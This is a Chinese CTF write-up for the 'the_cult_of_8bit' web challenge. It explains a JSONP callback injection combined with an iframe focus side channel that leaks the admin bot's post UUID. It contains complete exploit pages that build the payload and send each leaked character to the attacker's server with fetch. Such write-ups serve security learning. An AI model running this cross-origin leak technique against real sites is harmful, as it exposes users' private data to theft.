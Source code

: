 # Web
## the_cult_of_8bit
注册登录之后发现有简历post和to do的功能
最初的想法是去骗取_csrf的值来实现登录admin，但是发现每次都会刷新

![](attachments/Pasted%20image%2020230408131159.png)

大致的解法就是搞到bot放flag的post的uuid，但是需要先通过xss来偷取bot的admin账户，这里想要骗点击的话，就只有自己上传的post和to do

这是home.ejs部分的关键代码

```js
<div class="container has-text-centered">
      <div class="column is-8 is-offset-2">
        <%_ if (user) { _%>
        <div class="box">
          <div class="nes-container with-title is-centered my-4">
            <p class="title">8-bit Cult</p>
            <p class="is-size-4 has-text-left">Welcome, <%= user.user %>!</p>
            <p class="is-size-5 has-text-weight-bold has-text-left">Your posts:</p>
            <div class="content">
              <ul>
              <%_ user.posts.forEach(post => { _%>
                <li class="has-text-left"><a href="/post/?id=<%= post %>"><%= post %></a></li>
              <%_ }); _%>
              </ul>
            </div>
            <p class="is-size-5 has-text-weight-bold has-text-left">Your todo list:</p>
            <div class="content">
              <ul>
              <%_ user.todos.forEach(todo => { _%>
                <%_ if (todo.isURL) { _%>
                  <li class="has-text-left"><a target="_blank" href=<%= todo.text %>><%= todo.text %></a></li>
                <%_ } else { _%>
                <li class="has-text-left"><%= todo.text %></li>
                <%_ } _%>
              <%_ }); _%>
              </ul>
            </div>
          </div>
        </div>
```

能够看出，在todo这里有一个isURL的check大致是，如果todo是url的话就给放到`<a>`里面，这样操作的话bot就可以点击到
这里的isURL有对应的check会去去除空格和对`jacascript:`的检测

![](attachments/Pasted%20image%2020230408141012.png)

在post.ejs中存在callback

```js
      function load_post(post) {
        if (!post.success) {
          $("#post-name").innerText = "Error";
          $("#post-body").innerText = post.error;
          return;
        }
  
        $("#post-name").innerText = post.name;
        $("#post-body").innerText = post.body;
      }

      window.onload = function() {
        const id = new URLSearchParams(window.location.search).get('id');
        if (!id) {
          return;
        }
  
        // Load post from POST_SERVER
        // Since POST_SERVER might be a different origin, this also supports loading data through JSONP
        const request = new XMLHttpRequest();
        try {
          request.open('GET', POST_SERVER + `/api/post/` + encodeURIComponent(id), false);
          request.send(null);
        }
        catch (err) { // POST_SERVER is on another origin, so let's use JSONP
          let script = document.createElement("script");
          script.src = `${POST_SERVER}/api/post/${id}?callback=load_post`;
          document.head.appendChild(script);
          return;
        }
  
        load_post(JSON.parse(request.responseText));
      }
    </script>
```

首先确定获得admin页面的uuid的位置，这个可以用自己创建的做实验

![](attachments/Pasted%20image%2020230408172455.png)

现在知道了对应uuid的位置，可以通过类似sql盲注的方式来实现获取uuid
之后为了使用josnnp来完成跨域访问，需要设置ifarems的allow属性 sync-xhr 'none'来禁用xhr使try捕获异常，从而使用jsonp来获取数据

![](attachments/Pasted%20image%2020230409154316.png)

```js
router.get("/post/:id", (req, res) => {
    let { id } = req.params;
  
    if (!id || typeof id !== "string") {
        return res.jsonp({
            success: false,
            error: "Missing id"
        });
    }
  
    if (!db.posts.has(id)) {
        return res.jsonp({
            success: false,
            error: "No post found with that id"
        });
    }
  
    let post = db.posts.get(id);
    return res.jsonp({
        success: true,
        name: post.name,
        body: post.body
    });
});
```


使用callback需要将原来的callback=load_post截断掉，这里使用#

url=>  `http://localhost:12345/post/?id=ad2a46df-4b36-470a-aa39-79acec6ca801?callback=function#`

### exp
index.html
```js
<script>
    const host = "http://localhost:12345"
    window.open("./exp.html","_blank")
    location.replace(host)
</script>
```

exp.html

```js
<a id="default" href="#">default</a>
<script>
    async function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    const selfId = "ad2a46df-4b36-470a-aa39-79acec6ca801";//自己给个存在的post id
    const host = "http://localhost:12345";//题目地址
    const charList = "0123456789abcdef-";
    var resId = "";
  
    function createCharIframe(name) {
        var tmpIframe = document.createElement('iframe');
        tmpIframe.name = name;
        document.body.appendChild(tmpIframe);
    }
    charList.split('').forEach(name => createCharIframe(name));
  
    (function createChallengeIframe() {
        var challengeIframe = document.createElement('iframe');
        challengeIframe.name = "challenge";
        challengeIframe.src = host;
        challengeIframe.allow = "sync-xhr 'none'";//使用特征策略禁止xhr
        document.body.appendChild(challengeIframe);
    })();
  
    async function exploit() {
  
        var challenge = window['challenge'];
        for(let i = 0; i < 36; i++) {
            //payload
            let payload = `top[top.opener.document.body.children[1].childNodes[1].children[0].children[0].children[3].children[0].children[0].children[0].text[${i}]].focus`;
            challenge.location = `${host}/pot/?id=${selfId}%3Fcallback=${payload}%23`;

            await sleep(200);//时间根据情况调整
        }
    }
  
    //监听焦点变化
    function listenFocus() {
  
        var activeFocusName = document.activeElement.name;
        if(activeFocusName) {//若监听到iframe焦点
            resId += activeFocusName;
            document.getElementById("default").focus();//初始化焦点
            fetch(`/res/${resId}`);
        }
    }
    setInterval(listenFocus, 100);
    sleep(2000);
    exploit();
</script>
```



## 参考文章
https://blog.huli.tw/2022/04/07/iframe-and-window-open/

https://mp.weixin.qq.com/s/RZSNb2tdvp5Q2Y41b9LXvw?ref=www.ctfiot.com

https://blog.maple3142.net/2023/01/08/real-world-ctf-2023-writeups/#the-cult-of-8-bit